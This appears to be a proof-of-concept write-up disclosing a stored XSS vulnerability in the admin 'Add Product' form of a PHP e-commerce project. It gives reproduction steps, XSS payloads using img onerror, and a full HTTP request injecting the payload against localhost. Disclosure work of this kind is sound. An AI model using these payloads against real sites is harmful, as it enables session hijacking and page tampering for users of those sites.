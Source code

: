 # Full-Ecommece-Website-Add_Product-Stored_XSS-POC
* `Note` => Login to admin
* `Description` => Stored_XSS at `Product Title`
# Step to Reproduct
* `Login to admin` -> `Add Product` -> input payload `<img/src/onerror=prompt(10)>` at `Product Title` -> `Product Title`
# Exploit
![image](https://user-images.githubusercontent.com/79050415/158090373-2c108b5d-999d-4b23-82dc-1971dd1809fb.png)
* Input payload at `Product Title` -> clicked `Product Title` -> The XSS will trigger
![image](https://user-images.githubusercontent.com/79050415/158090577-8977edc4-12da-47bf-a24f-fcac2113928b.png)
![image](https://user-images.githubusercontent.com/79050415/158090598-0b273971-4fe1-4479-b7c1-95597f40fe83.png)
# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/158090702-340cdc74-8abc-4903-99e9-4d7b2d9b6414.png)
* When inserting into the database, the input is not filtered out characters
# POC
* Injection Point
```c
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_title"

<image/src/onerror=prompt(8)>
```
* Request
```c
POST /Full-Ecommece-Website/Codes/public/admin/index.php?add_product HTTP/1.1
Host: localhost:8080
Content-Length: 1354971
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXtBAIsNDayF64Ebh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/Full-Ecommece-Website/Codes/public/admin/index.php?add_product
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=oam3rcbi14nilh2pp3s21upev5; twk_uuid_5c2396fb7a79fc1bddf24b28={"uuid":"1.AGDzvqvmbboNUBtyBA0XLKxrviwKWw7HVKOjPqv5aIOJHjOnigPvpa5cn7QPGv6D5QwLM7ZIIBSpua1NrhQBpEeAdolcmuMk3JJtap3Nu2WjBL31HFdBqMF9VFcu8Olw","version":3,"domain":null,"ts":1647022863776}; TawkConnectionTime=0
Connection: close

------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_title"

<image/src/onerror=prompt(8)>
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_description"

hacked
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_price"

10000
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="short_desc"

hacked
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="publish"

Publish
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_category_id"

12
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_quantity"

1
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="file"; filename="car.png"
Content-Type: image/png

PNG
```
`Video POC` https://drive.google.com/file/d/155K4qLwGI8kwctd5FijU9gzonSA2rMFz/view?usp=sharing

